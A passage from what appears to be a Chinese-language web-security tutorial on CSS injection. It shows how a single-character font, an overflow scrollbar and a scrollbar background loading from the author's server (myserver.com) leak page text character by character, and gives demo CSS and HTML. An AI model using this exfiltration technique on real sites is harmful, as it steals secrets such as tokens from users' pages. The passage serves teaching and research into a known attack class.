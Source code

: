 很明顯 A 比其他字元的高度都高，而且根據我們的 CSS 設定，如果內容高度超過容器高度，會出現 scrollbar。雖然上面是截圖看不出來，但是下面的 ABC 有出現 scrollbar，而上面的 DBC 沒有。

再者，我們其實可以幫 scrollbar 設定一個外部的背景：

``` css
div::-webkit-scrollbar {
    background: blue;
}

div::-webkit-scrollbar:vertical {
    background: url(https://myserver.com?q=a);
}
```

也就是說，如果 scrollbar 有出現，我們的 server 就會收到 request。如果 scrollbar 沒出現，就不會收到 request。

更進一步來說，當我把 div 套用 "fa" 字體時，如果畫面上有 A，就會出現 scrollbar，server 就會收到 request。如果畫面上沒有 A，就什麼事情都不會發生。

因此，我如果一直重複載入不同字體，那我在 server 就能知道畫面上有什麼字元，這點跟剛剛我們用 `unicode-range` 能做到的事情是一樣的。

那要怎麼解決順序的問題呢？

我們可以先把 div 的寬度縮減到只能顯示一個字元，這樣其他字元就會被放到第二行去，再搭配 [::first-line](https://developer.mozilla.org/en-US/docs/Web/CSS/::first-line) 這個 selector，就可以特別針對第一行做樣式的調整，像是這樣：

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "fa";
        src:local('Comic Sans MS');
        font-style:monospace;
        unicode-range: U+41;
      }
      div {
        font-size: 0px;
        height: 40px;
        width: 20px;
        font-family: fa, "Courier New";
        letter-spacing: 0px;
        word-break: break-all;
        overflow-y: auto;
        overflow-x: hidden;
      }

      div::first-line{
        font-size: 30px;
      }

    </style>
    Secret: <div>CBAD</div>
  </body>
</html>
```
